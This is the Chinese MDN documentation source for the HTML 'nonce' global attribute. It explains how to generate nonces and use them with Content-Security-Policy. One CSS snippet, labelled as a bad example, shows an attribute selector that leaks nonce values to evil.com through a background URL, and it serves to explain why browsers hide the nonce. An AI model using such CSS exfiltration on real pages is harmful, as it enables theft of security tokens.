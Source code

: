 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
l10n:
  sourceCommit: ba96f2f183353872db6d9242c7d2dffe2dbc0c35
---
```


{{HTMLSidebar("Global_attributes")}}

**`nonce`** [全局属性](/zh-CN/docs/Web/HTML/Global_attributes)是定义了加密的 nonce（“只使用一次的数字”）的内容属性，[内容安全策略](/zh-CN/docs/Web/HTTP/CSP)可以使用它来确定是否允许对给定元素进行获取。

## 描述

`nonce` 属性可用于允许对特定资源的获取，如内联脚本或样式元素。它可以帮助你避免使用 [CSP](/zh-CN/docs/Web/HTTP/CSP) `unsafe-inline` 指令，该指令会允许你获取*所有*的内联脚本或样式资源。

> **备注：** 只有在无法使用不安全的内联脚本或样式内容时，才使用 `nonce`。如果不需要 `nonce`，就不要使用。如果脚本是静态的，也可以使用 CSP 哈希值来代替。（请参阅[不安全内联脚本](/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#不安全内联脚本)中的使用说明）。始终尽量充分利用 [CSP](/zh-CN/docs/Web/HTTP/CSP) 保护，并尽可能避免使用 nonce 或不安全的内联脚本。

### 使用 nonce 以允许一个 \<script> 元素

使用 nonce 机制允许内联脚本需要几个步骤：

#### 生成所需值

从你的 web 服务器上，使用一个密码学安全的随机数生成器生成至少 128 位的 base64 编码的随机字符串。每次加载页面时，应该以不同的方式生成 nonce（nonce 只能生成一次！）。例如，在 nodejs 中，应该这样做：

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### 在内联脚本中允许获取资源

后端代码生成的 nonce 现在应该可用于你希望允许使用的内联脚本：

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### 发送带有 CSP 标头的 nonce

最后，你需要在 [`Content-Security-Policy`](/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy) 标头中发送 nonce 值（需要在此值前面附加 `nonce-`）：

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### 访问 nonce 值和 nonce 隐藏

出于安全考虑，`nonce` 内容属性是隐藏的（将返回空字符串）。

```js example-bad
script.getAttribute("nonce"); // 返回空字符串
```

[`nonce`](/zh-CN/docs/Web/API/HTMLElement/nonce) 属性是访问 nonce 的唯一方法：

```js example-good
script.nonce; // 返回 nonce 值
```

Nonce 隐藏有助于防止攻击者通过能从内容属性中抓取数据的机制泄露 nonce 数据，比如这样：

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 规范

{{Specifications}}

## 浏览器兼容性

{{Compat}}

## 参见

- [`HTMLElement.nonce`](/zh-CN/docs/Web/API/HTMLElement/nonce)
- [内容安全策略](/zh-CN/docs/Web/HTTP/CSP)
- CSP：[`script-src`](/zh-CN/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
